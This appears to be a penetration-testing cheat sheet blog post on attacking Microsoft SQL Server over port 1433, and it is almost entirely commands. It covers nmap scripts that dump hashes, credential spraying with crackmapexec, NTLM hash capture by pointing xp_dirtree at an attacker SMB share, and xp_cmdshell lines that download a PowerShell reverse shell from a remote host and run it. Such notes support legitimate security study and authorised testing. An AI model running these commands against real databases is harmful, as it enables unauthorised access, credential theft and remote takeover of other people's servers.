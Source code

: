 +++
title = "Pentest - MSSQL - Microsoft SQL Server p 1433"
author = ["svejk"]
tags = ["sql", "pentest"]
draft = false
+++

## Pentest Microsoft SQL Server {#pentest-microsoft-sql-server}


### Enumeration {#enumeration}

```shell { linenos=true, linenostart=1 }
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```


### Test credentials {#test-credentials}

```shell { linenos=true, linenostart=1 }
crackmapexec mssql <host> -u users.txt -p passwords.txt
```


### Establish connection {#establish-connection}

```shell
impacket-mssqlclient -dc-ip <ip> -windows-auth domain/username:password@host
```


#### List DBs {#list-dbs}

```sql { linenos=true, linenostart=1 }
SELECT name FROM master..sysdatabases;
```


#### Check permissions {#check-permissions}

```sql { linenos=true, linenostart=1 }
Use master;
EXEC sp_helprotect 'xp_dirtree';
EXEC sp_helprotect 'xp_subdirs';
EXEC sp_helprotect 'xp_fileexist';
```


#### `xp_dirtree` {#xp-dirtree}

```sql { linenos=true, linenostart=1 }
EXEC xp_dirtree 'C:\inetpub\wwwroot', 1, 1;
```

Use `xp_dirtree` to obtain NTLM hashes

```shell { linenos=true, linenostart=1 }
#victim
xp_dirtree \\<attacker_ip>\file.txt
#attacker
sudo impacket-smbserver -smb2support share $(pwd)
```


### `xp_cmdshell` {#xp-cmdshell}

Enable - run command - rev shell

```shell { linenos=true, linenostart=1 }
enable_xp_cmdshell
xp_cmdshell whoami
xp_cmdshell powershell -c iwr http://<ip>/shell.ps1 -o C:\programdata\rev.ps1
xp_cmdshell powershell -c C:\programdata\rev.ps1
```

[hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
